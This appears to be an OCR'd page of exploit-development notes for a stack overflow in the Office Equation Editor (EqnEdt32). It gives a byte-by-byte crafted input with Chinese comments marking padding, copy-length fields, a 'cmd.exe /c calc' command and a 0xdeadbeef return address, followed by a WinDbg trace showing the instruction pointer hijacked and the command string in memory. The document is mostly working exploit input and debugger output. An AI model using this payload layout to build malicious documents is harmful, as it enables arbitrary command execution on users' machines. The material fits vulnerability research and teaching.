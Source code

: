```

44 // 确保进入case 4

66 // 填充用，随意

77 // 填充用，随意

09 // 填充用，随意

05 // 填充用，随意

AA // 填充用，随意

55 // 确保进入第2个case 4

10 // sub_443e34内读入的第1个字节

11 // sub_443e34内读入的第2个字节

12 // sub_443e34内读入的第3个字节

1c // 等待计算以决定拷贝大小的长度1

4c // 等待计算以决定拷贝大小的长度2

63 6d 64 2e 65 78 65 20 // 第一次拷贝的8个字节

2f 63 63 61 6c 63 00 44 44 44 44 44 ef be ad de ef be ad de // 第二次拷贝的20个字节
```

```
0:000&gt; p

eax=001f15f2 ebx=00000006 ecx=7747a24c edx=00000002 esi=0012f7e4 edi=0012f5e0

eip=00443efc esp=0012f480 ebp=deadbeef iopl=0         nv up ei pl nz ac po nc

cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000212

EqnEdt32!MFEnumFunc+0x156ff:

00443efc c3              ret

0:000&gt; t

eax=001f15f2 ebx=00000006 ecx=7747a24c edx=00000002 esi=0012f7e4 edi=0012f5e0

eip=deadbeef esp=0012f484 ebp=deadbeef iopl=0         nv up ei pl nz ac po nc

cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000212

deadbeef ??              ???

0:000&gt; db eax

001f15f2  30 4f 45 00 7a 16 1f 00-00 00 00 00 00 00 00 00  0OE.z...........

001f1602  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

001f1612  00 00 00 00 00 00 00 00-96 fe 00 00 44 0b aa 14  ............D...

001f1622  1f 00 63 6d 64 2e 65 78-65 20 2f 63 63 61 6c 63  ..cmd.exe /ccalc

001f1632  00 44 44 44 44 44 e4 14-1f 00 10 01 3a 00 20 5a  .DDDDD......:. Z
```